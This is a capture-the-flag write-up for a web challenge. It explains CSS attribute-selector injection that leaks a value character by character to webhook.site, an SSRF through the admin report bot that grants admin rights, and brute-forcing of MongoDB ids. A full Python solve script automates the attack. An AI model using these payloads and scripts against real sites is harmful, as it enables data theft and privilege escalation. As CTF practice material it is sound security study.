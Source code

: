 ```yaml
---
created: 2024-07-27T02:55
updated: 2024-08-04T19:22
tags:
  - css-injection
solves: 15
points: 360
description: I do love CSS injection
---
```


> Color your username colorful!

## First Part

To access the admin's username, we can use the value of edit page's `<input>`.
`/post/edit/{pid}`

```html
<p>Author: <input class="author" type="text" value="{{author.username}}" disabled></p>
<p>Your account: <input class="user" type="text" value="{{user.username}}" disabled></p>
```

### CSS Injection

To do this I decided to use CSS selectors, because `xss` has prevented naïve XSS methods.

```css
input.user[value^="DEAD{flag_"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_');
}
```

If I received a request, that means the flag indeed starts with that sequence, we can also use multiple rules like this each with a different url query so I would know which rule in particular activated.

```css
input.user[value^="DEAD{flag_a"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_a');
}
input.user[value^="DEAD{flag_b"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_b');
}
input.user[value^="DEAD{flag_c"]{
    background: url('https://webhook.site/?prefix=DEAD{flag_c');
}
```

After we receive a request, we update the payload with the new found char, and guess the next char.

### Payload

We will register a new account for every attempt, and add multiple CSS rules checking multiple "next character".

The payload is placed inside `personalColor`, as we can see, that's the only place where triple bar (i.e. no escape) is used.

```css
.author {
    color: {{{ author.personalColor }}}
}

.user {
    color: {{{ user.personalColor }}}
}
```

The backend uses `xss` library which will escape all occurrences of `<>` and I think it is not possible to exit the `<style>` tag.
## Second Part

To view notices we have to be admins, we can make the report bot grant us admin rights.

This is a simple SSRF to `https://TARGET/admin/report?url=http://localhost:1337/admin/grant?username=USERNAME`.

After logging out and logging in again, we can now see the notice page, where we can find the mongoose id of the two entries sandwiching the flag.

`66a4b8f9d40a5a2b039f2d68 66a4b8ffd40a5a2b039f2d6a`
### Find flag's id
But flag's id is hidden, how would we find it?

```js
await delay(randomDelay());
await db.notices.insertOne({ title: "asdf", content: "asdf" });

await delay(randomDelay());
await db.notices.insertOne({ title: "flag", content: "FAKE_FLAG}" });

await delay(randomDelay());
await db.notices.insertOne({ title: "qwer", content: "qwer" });
```

Mongoose ids are actually encoded timestamps, so by exploring all "in-between" values, we can find the flag's id.
## Solve Script

To solve the first part, you have to start run the script every time you add a new character.

I've heard of easier & faster recursive `@import` methods but thought this is simpler.

```python
import urllib.parse
import re
import string
import random
import requests


def id_generator(size=6, chars=string.ascii_uppercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))


target = "39c1490373bbf326a5023003.deadsec.quest"


def register(s, user, passw, payload):
    s.post(f"https://{target}/auth/register", json={"username": user,
                                                    "password": passw,
                                                    "personalColor": payload})


def login(s, user, passw):
    r = s.post(f"https://{target}/auth/login", json={"username": user, "password": passw})
    s.cookies.set('accessToken', r.json()['accessToken'])


def gain_admin(s, user):
    r = s.get(f"https://{target}/admin/report?url=http://localhost:1337/admin/grant?username={user}").json()
    print("gain_admin", r)


def notice_ids(s):
    r = s.get(f"https://{target}/admin/notice/").text
    g = re.findall(r"/admin/notice/([a-f0-9]+)", r)
    id1, id2 = g
    print("found ids", id1, id2)
    d1 = int(id1[:8], 16)
    d2 = int(id2[:8], 16)
    p1 = int(id1[8:], 16)
    p2 = int(id2[8:], 16)
    print("trying a total of", (d2-d1+1)*(p2-p1+1), "combinations")  # probably not need that many
    for _1 in range(d1, d2+1):
        for _2 in range(p1, p2+1):
            try:
                r = s.get(f"https://{target}/admin/notice/{_1:08x}{_2:016x}").text
                if "flag" in r:
                    f = re.search(r"<div class=\"post-content\">([^<]+)", r).group(1).strip()
                    print("flag part 2", f)
            except:
                pass


def report_post(s):
    pid = s.get(f"https://{target}/post/all").json()[0]['_id']
    url = f"http://localhost:1337/post/edit/{pid}"
    s.get(f"https://{target}/admin/report?url={urllib.parse.quote(url)}")


def make_post(s):
    s.post(f"https://{target}/post/write", json={"title": "test", "content": "test"})


def str_to_css_hex(s):
    special_characters = r'[_]'
    return re.sub(special_characters, lambda match: f'\\{ord(match.group(0)):04x}', s)


def tryFlag(pres):
    s = requests.session()
    try:
        print("trying", pres)
        user = id_generator(7)
        passw = id_generator(7)
        _pres = '\n'.join([f"""input.user[value^="{pre}"]{{
background: url('https://webhook.site/?prefix={urllib.parse.quote(pre)}');
}}""" for pre in pres])
        payload = f"""
#000;}}
{_pres}
*{{""".strip()
        register(s, user, passw, payload)
        login(s, user, passw)
        make_post(s)
        report_post(s)
        print("done", pres)
    except Exception as e:
        print('error!', e)
        tryFlag(pres)
        return None


def extendFlag(flag_pre):
    w_size = 25
    for I in range(0, len(string.printable), w_size):
        chrs = [string.printable[I+i] for i in range(min(w_size, len(string.printable)-I))]
        pres = [str_to_css_hex(flag_pre+c) for c in chrs]
        random.shuffle(pres)
        tryFlag(pres)


def second_part():
    s = requests.session()
    register(s, "kumo", "kumo", "#000")
    login(s, "kumo", "kumo")
    print("login")
    gain_admin(s, "kumo")
    s.cookies.clear()
    login(s, "kumo", "kumo")
    notice_ids(s)


# extendFlag("DEAD{")
second_part()   # c010rful_w3b_with_c55}
```

```flag
DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}
```

## Failed Attempts

- Using selection hash `#:~:text={urllib.parse.quote(flag)}` didn't work on remote for some reason, worked on local browser.
- Using svg ligatures generated fonts, and look for scrollbars also didn't work for some reason, the scrollbar selector always activates.
- I spent 90% of the time trying to leak the view page, and totally forgot the edit page has a input element.
